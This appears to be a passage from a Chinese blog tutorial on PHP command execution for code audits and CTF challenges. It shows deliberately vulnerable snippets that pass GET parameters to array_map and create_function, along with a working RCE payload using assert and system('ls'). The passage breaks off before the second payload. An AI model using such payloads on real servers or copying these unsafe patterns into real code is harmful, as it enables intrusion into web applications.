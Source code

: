 ```yaml
---
layout: post
title: "PHP命令执行集锦"
date: "2022-03-21T08:53:32.727Z"
---
```

PHP命令执行集锦
=========

代码审计总要遇到命令执行或者说RCE，打CTF的过程中难免不会碰见，毕竟PHP是世界上最好的语言，总结一下...

#### **前言**

代码审计总要遇到命令执行或者说RCE，打CTF的过程中难免不会碰见，毕竟**PHP是世界上最好的语言**，总结一下

#### **命令执行函数**

##### **E.g.1**

 <?php   
 error\_reporting(0);   
 show\_source(\_\_FILE\_\_);   
 $a = "$\_GET\[c\]";   
 $b = "$\_GET\[d\]";   
 $array\[0\] =$b;   
 $c = array\_map($a,$array);   
 ?> 

传入参数c和d，array\_map函数作用将**$a**作为函数，**$array**作为参数，构造paylaod

> ?c=assert&d=system(%27ls%27);

##### **E.g.2**

<?php  
error\_reporting(0);  
show\_source(\_\_FILE\_\_);  
$a = "$\_GET\[b\]";  
$b = create\_function('',$a);  
$b();  
?>

**create\_function** 函数会创建一个匿名函数（`lambda`样式），在第一个`echo`中显示出名字，并在第二个`echo`语句中执行了此函数。

$b = create\_function('',$a);

这里$a为函数，' '为参数

那么可以看作为

function lambda(){  
•   echo ' ' ;  
}

传入payload
